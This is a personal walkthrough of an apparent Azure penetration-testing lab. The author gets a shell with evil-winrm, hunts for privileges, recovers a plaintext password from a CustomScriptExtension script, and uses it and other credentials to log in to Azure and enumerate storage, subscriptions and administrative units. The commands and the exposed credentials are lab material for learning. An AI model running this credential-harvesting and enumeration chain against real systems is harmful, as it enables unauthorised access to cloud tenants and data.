==warning== : If you perform heavy active scanning against the target, it may block you. Once again, it is important to start with passive scanning or perform active enumeration slowly.


Using evil-winrm, we gained access to the target. However, SSH typically provides a better CLI environment.

There was something interesting here. 
22: SSH
135/445 : SMB
3389: remote desktop
5985/5986 : WINRM


```bash
$ evil-winrm -i 172.191.90.57 -u devuser -p '*****' 
*Evil-WinRM* PS C:\Users\devuser\Documents> netstat -ano

...snip...

  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING       2928                                                                                  
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       960                                                                                   
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4                                                                                     
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       428                                                                                   
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4      
  TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4                                                                                     
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4      
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       568    
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1180   
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1732   
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2496                                                                                  
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       2724   
  TCP    0.0.0.0:49672          0.0.0.0:0              LISTENING       704                                                                                   
  TCP    0.0.0.0:49676          0.0.0.0:0              LISTENING       724 

...snip...

```

```bash
PS C:\Users\devuser>  
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\devuser>  

```


## 5.3 Enumerate Windows

I thought I could score an easy win with WinPEAS, but I was WRONG!

```powershell
 wget https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1 -o winpeas.ps1
At C:\Users\devuser\winpeas.ps1:1 char:1       

+ <#                                                             
+ ~~                                                                          
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParseException              
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent


```

So, we need to do this manually! [[../../../../6. Windows OS/6.2 Attack Windows/Enumerate Windows\|Enumerate Windows]].

I typically divide the process into three categories: User Information, Computer Information, and Network Information



### 5.3.1 User Information
```powershell

Evil-WinRM* PS C:\Users\devuser\Documents> net user devuser
User name                    devuser
Comment                      User for DEV Purposes
Workstations allowed         All
Local Group Memberships      *Remote Desktop Users *Remote Management Use
Global Group memberships     *None

Evil-WinRM* PS C:\Users\devuser\Documents> whoami /all
...snip
User Name         SID
================= ==============================================
devteamvm\devuser S-1-5-21-1256531185-2947529663-2728766086-1000
...snip...

PRIVILEGES INFORMATION
...snip...
Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
#### 5.3.1.1 What are those privileges?

SeChangeNotifyPrivilege
Bypass traverse checking
Allows traversal of directories even if the user doesn't have permissions on the traversed directories.   
**Traversal Abuse**: Could be combined with other vulnerabilities to access restricted directories and files


 **SeIncreaseWorkingSetPrivilege**
 Increase a process working set  
 Allows a process to increase the working set of a process (the physical memory assigned).  **Resource Exhaustion**: Can be misused to allocate excessive memory to processes. May lead to system slowdown or denial of service due to memory exhaustion.             


I spent a significant amount of time searching for potential privilege escalation opportunities but had no luck. I wasn’t able to access other folders with the SeChangeNotifyPrivilege right. For now, I’m moving on.

Detailed information can be found here: [[../../../../6. Windows OS/6.1 Learn Windows/1. Windows Basic/Windows User Rights#Dangerous Windows User Privileges\|Windows User Rights]]

Detail information is here. [[../../../../6. Windows OS/6.1 Learn Windows/1. Windows Basic/Windows User Rights#Dangerous Windows User Privileges\|Windows User Rights]]


### 5.3.2 Custom scripts
"After extensive scanning and attempting to run open-source tools like LaZagne, I decided to manually search for potential findings.

I discovered a Packages directory on **C:**, which is something I don’t commonly see. The subdirectory Microsoft.Compute.CustomScriptExtension caught my attention, as I’m specifically searching for third-party scripts and files 

```powershell

    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/18/2023  11:09 PM                Packages
d-----        12/2/2023   7:53 PM                PerfLogs
d-r---        9/12/2024   6:42 PM                Program Files
d-----        5/11/2024   8:10 PM                Program Files (x86)
d-----         2/7/2024   5:26 PM                Temp
d-r---       12/19/2023   5:38 AM                Users
d-r---        7/10/2024   3:14 AM                Windows
d-----         9/4/2024   9:15 PM                WindowsAzure


PS C:\packages\Plugins> tree
Folder PATH listing for volume Windows
Volume serial number is E023-F072
C:.
├───Microsoft.Compute.CustomScriptExtension
│   └───1.10.15
│       ├───bin
│       │   ├───de
│       │   ├───es
│       │   ├───fr
│       │   ├───it
│       │   ├───ja
│       │   ├───ko
│       │   ├───ru
│       │   ├───zh-Hans
│       │   └───zh-Hant
│       ├───Downloads
│       │   └───0
│       ├───RuntimeSettings
│       └───Status
├───Microsoft.Compute.VMAccessAgent
│   └───2.4.11
│       ├───bin
│       ├───RuntimeSettings
│       └───Status
└───Microsoft.CPlat.Core.RunCommandWindows
    └───1.1.18
        ├───bin
        ├───Downloads
        ├───RuntimeSettings

```


Salud!!  We FOUND a password for the user `serveruser`:  `*****`


```powershell


PS C:\packages\Plugins\Microsoft.Compute.CustomScriptExtension\1.10.15\Downloads\0> type .\customextensiontest.ps1 
$passwd = ConvertTo-SecureString "*****" -AsPlainText -Force                                                                            
$cred = New-Object System.Management.Automation.PSCredential('serveruser',$passwd)                                                            
$PSSession1 =  New-PSSession -ComputerName 192.168.10.8 -Credential $cred -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer) 
Copy-Item -FromSession $PSSession1 -Path C:\server\serversetup.exe -Destination \C:\server\serversetup.exe –Verbose                       
PS C:\packages\Plugins\Microsoft.Compute.CustomScriptExtension\1.10.15\Downloads\0>                                                           


PS C:\packages\Plugins\Microsoft.Compute.CustomScriptExtension\1.10.15> cat .\HandlerEnvironment.json
[{"version":1,"handlerEnvironment":{"logFolder":"C:\\WindowsAzure\\Logs\\Plugins\\Microsoft.Compute.CustomScriptExtension\\1.10.15","configFolder":"C:\\Packages\\Plugins\\Microsoft.Compute.CustomScriptExtension\\1.10.15\\RuntimeSettings","statusFolder":"C:\\Packages\\Plugins\\Microsoft.Compute.CustomScriptExtension\\1.10.15\\Status","heartbeatFile":"C:\\Packages\\Plugins\\Microsoft.Compute.CustomScriptExtension\\1.10.15\\Status\\HeartBeat.Json","deploymentid":"b606ebd1-a2a9-4480-ac2d-d7ca3b5ca397","rolename":"_DevTeamVM","instance":"_DevTeamVM","hostResolverAddress":"168.63.129.16","eventsFolder":"C:\\WindowsAzure\\Logs\\Plugins\\Microsoft.Compute.CustomScriptExtension\\Events"}}]

        └───Status


```

Looking at the route results, it seems we may not be able to connect to 192.168.10.8. Additionally, 192.168.x.x addresses are part of a private network. So, let's take a step back. Since HandlerEnvironment.json indicates a connection to DevTeamVM, it's possible that serveruser has an identity in Azure Entra ID.

```powershell
route PRINT 192.168.10.8
===========================================================================
Interface List
  3...60 45 bd eb d5 c1 ......Microsoft Hyper-V Network Adapter
  1...........................Software Loopback Interface 1
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
  None
Persistent Routes:
  None

IPv6 Route Table
===========================================================================
Active Routes:
  None
Persistent Routes:
  None

```


## 5.4 New user serveruser
Using the credentials we found, I was able to connect to Azure and capture the flag!!


```bash
$ az login -u serveruser@megabigtech.com -p '*****'
Authentication with username and password in the command line is strongly discouraged. Use one of the recommended authentication methods based on your requirements. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantDefaultDomain": "megabigtech.com",
    "tenantDisplayName": "Default Directory",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "serveruser@megabigtech.com",
      "type": "user"
    }
  }
]


$ az storage account list    
     "services": {                                                               
        "blob": {                                                                
          "enabled": true,                                                       
          "keyType": "Account",                                                  
        },                                                                       
        "file": {                                                                
          "enabled": true,                                                       
          "keyType": "Account",                                                  
        },                             

$ az storage container list --auth-mode login --account-name storageqaenv --output table
Name              Lease Status    Last Modified
----------------  --------------  -------------------------
general-purpose                   2023-12-17T02:53:12+00:00
patent-documents                  2023-12-17T04:12:44+00:00
server-files                      2023-12-18T23:08:26+00:00

az storage blob download --auth-mode login --account-name storageqaenv -c patent-documents -n 'Granted Patent.txt'  


```


# 6. Let's follow the course material (pending)

This time let's user Powershell. For whatever reason Import-module takes quite bit of time. 

```powershell
PS> Install-Module -Name Az


PS> Import-Module -Name Az


```


****
## 6.1 Login syntax 
Unlike az cli, az powershell requires a bit of leg work to use. One odd thing was the use of converto-secureString. Why? 

[According to Microsoft](https://learn.microsoft.com/en-us/powershell/module/az.accounts/connect-azaccount?view=azps-12.3.0#description)
>The Connect-AzAccount cmdlet connects to Azure with an authenticated account for use with cmdlets from the Az PowerShell modules. You can use this authenticated account only with Azure Resource Manager requests. 

See more about Resource Manager [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure Resource Manager\|here]]. 


```powershell
$passwd = ConvertTo-SecureString "V%#J3c5jceryjcE" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("dbuser@megabigtech.com",$passwd)
Connect-AzAccount -Credential $creds

or One-liner

Connect-AzAccount -Credential (New-Object System.Management.Automation.PSCredential("dbuser@megabigtech.com", (ConvertTo-SecureString "V%#J3c5jceryjcE" -AsPlainText -Force)))


```
[According to Microsoft](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7.4) , 
>ConvertTo-SecureString Converts plain text or encrypted strings to secure strings.

[According to Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential.-ctor?view=powershellsdk-7.4.0#system-management-automation-pscredential-ctor(system-string-system-security-securestring)) 
>System.Management.Automation.PSCredential initializes a new instance of the PSCredential class with a username and password. The password has to be in SecureString format, which explains why the `$passwd` has to be converted to SecureString. 
```
public:
 PSCredential(System::String ^ userName, System::Security::SecureString ^ password);
```

## 6.2 Enumerate with AZ powershell.
When it comes to enumeration, I usually start with Tenant, Subscription, then resource. 
Tenant ID can be gathered while we are querying a SubscriptionID. One thing I noticed was unlike AZ cli, we can select Azure SubscriptionID.  Once again, a tenant is a single identity. It can be a person, it can be an organization, etc. A subscription is billing category. One tenant can have multiple subscriptions.  More info is [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/Tenant, Subscription, Resource\|here]].


```powershell

PS> Get-AzSubscription                                                           
   TenantId: 2590ccef-687d-493b-ae8d-441cbab63a72                                Name                        Id                                   State           
----                        --                                   -----           
Microsoft Azure Sponsorship ceff06cb-e29d-4486-a3ae-eaaec5689f94 Enabled  


PS> Select-AzSubscription –SubscriptionID  "ceff06cb-e29d-4486-a3ae-eaaec5689f94"                                                                       Tenant: Default Directory (2590ccef-687d-493b-ae8d-441cbab63a72)             
SubscriptionName            SubscriptionId                       Account                Environment
----------------            --------------                       -------                -----------
Microsoft Azure Sponsorship ceff06cb-e29d-4486-a3ae-eaaec5689f94 dbuser@megabigtech.com AzureCloud

```


Now that we have tenant and subscription information, we can search for Resources. A resource can be anything. It can be VM, storage, vault, webapp, sql db, etc. As we can see from [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/Azure Powershell\|Azure Powershell]], we can simply put get in front of those nouns and query those items. 

```Powershell
| AzResourceGroup  |
| ---------------- |
| AzVM             |
| AzStorageAccount |
| AzKeyVault       |
| AzWebApp         |
| AzSqlDatabase    |


```

We were able to locate storage account using Get-AzResource. 
Azure storage service is like a ....gigantic somewhat organized space. It can contain blobs, files, queues, and tables. More info is [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure Storage Account#Storage Browser\|here]]. 

A great information regarding enumereation can be found here from [hacktricks.xyz](https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-services/az-blob-storage)


```powershell
PS> Get-AzResource                                                                                                                                                Name              : custdatabase                                            ResourceGroupName : content-static-2                                        ResourceType      : Microsoft.Storage/storageAccounts                       Location          : eastus                                                  ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/content-static-2/providers/Microsoft.Storage/storageAccounts/custdatabase
Tags              : 


PS> Get-AzStorageAccount       # or Get-AzStorageAccount  |fl
StorageAccountName ResourceGroupName PrimaryLocation SkuName        Kind      AccessTier CreationTime          ProvisioningState EnableHttpsTrafficOnly LargeFileShares
------------------ ----------------- --------------- -------        ----      ---------- ------------          ----------------- ---------------------- ----
custdatabase       content-static-2  eastus          Standard_RAGRS StorageV2 Hot        10/23/2023 10:59:06PM Succeeded         True   


Get-AzStorageAccountKey -ResourceGroupName content-static-2      
cmdlet Get-AzStorageAccountKey at command pipeline position 1               Supply values for the following parameters:                                 (Type !? for Help.)                                                         Name: custdatabase       

Get-AzStorageAccountKey: The client 'dbuser@megabigtech.com' with object id 'c25a3a89-a504-4b80-9b67-8219da75ef59' does not have authorization to perform action 'Microsoft.Storage/storageAccounts/listKeys/action' over scope '/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/content-static-2/providers/Microsoft.Storage/storageAccounts/custdatabase' or the scope is invalid. If access was recently granted, please refresh your credentials. 


```

### 6.2.1 Enumerate AU with MS Graph
MCgraph gives rest API access to ALL O365 services. Meaning we can collect good chunk of data from O365 via MCgraph rest APIs. 

==Warning== Import-Module MS Graph will take a quite time. 
More information can be found in [reddit](https://www.reddit.com/r/PowerShell/comments/1ah1aby/msgraph_modules_import_extremely_slowly_andtaking/) and [github](https://github.com/microsoftgraph/msgraph-sdk-powershell/issues/428).  In short, MS Graph bundle is quite a big size and importing all module will take good chunk of time. 


```POWERSHELL
Install-Module Microsoft.Graph
Import-Module Microsoft.Graph
Connect-MgGraph
```


We can collect dbuser's information with `Get-MgUserMemberof`, but the result is not something useful. 


```powershell
PS> Get-MgUserMemberof -UserId dbuser@megabigtech.com|FL                                                                                                                                                                                                                                                                
DeletedDateTime      : 
Id                   : fc185453-0e6c-4c47-829e-22608798785a
AdditionalProperties : {[@odata.type, #microsoft.graph.group], [createdDateTime, 2023-11-05T00:00:55Z], [creationOptions, System.Object[]], [description, 
                       Default Directory]…}


PS>  Get-MgUserMemberOf -UserId dbuser@megabigtech.com | select * -ExpandProperty additionalProperties

Key                          Value
---                          -----
...snip...
description                  Default Directory
displayName                  Default Directory
mail                         DefaultDirectory@megabigtech.com
...snip...
proxyAddresses               {SMTP:DefaultDirectory@megabigtech.com, 
...snip...
securityIdentifier           S-1-12-1-4229452883-1279725164-1612881538-1517852807
...snip...

```

[[8. Execute Azure Credential Shuffle to Achieve Objectives#3. Administrative Units\|Administrative units]] is something we have check earlier. Let's use MS Graph to check that out.

```powershell
PS> Get-MgDirectoryAdministrativeUnit |select ID, Description, DisplayName

Id            Description    DisplayName
47e4803e-a5ef-4ebc-b967-691815870abd 
Scope to manage the authentication settings for the users belonging to the project. 
Megabigtech-UNIT1
4a3288aa-1a8b-485a-8ced-2bd80feef625 
Initial administrative unit for new engineering hires                            ONBOARDING-ENGINEERING
57d14139-35e8-4cfb-a2a6-2b7dcd232436
Administrative unit for Mega Big Tech contractors                                CONTRACTORS
beae0ee3-3284-4a4f-94c9-e3a20ef0f388
User Management
f123c66b-8c78-4bd1-947f-8d43b3a21d04 
Allows the HR team to manage user properties
HR-UNIT2

```
### 6.2.2 Automate with Forloop
```powershell
# Step 1: Get the list of all Administrative Unit IDs
$adminUnits = Get-MgDirectoryAdministrativeUnit | Select-Object -ExpandProperty Id

# Step 2: Loop through each Administrative Unit ID and get the Scoped Role Members
foreach ($adminUnitId in $adminUnits) {
    Write-Host "Fetching role members for Administrative Unit ID: $adminUnitId"
    
    # Step 3: Get the scoped role members for each Administrative Unit
    $roleMembers = Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId $adminUnitId | Select-Object roleMemberInfo, roleId -ExpandProperty roleMemberInfo
    
    # Step 4: Output the result
    $roleMembers | Format-Table -AutoSize
}

```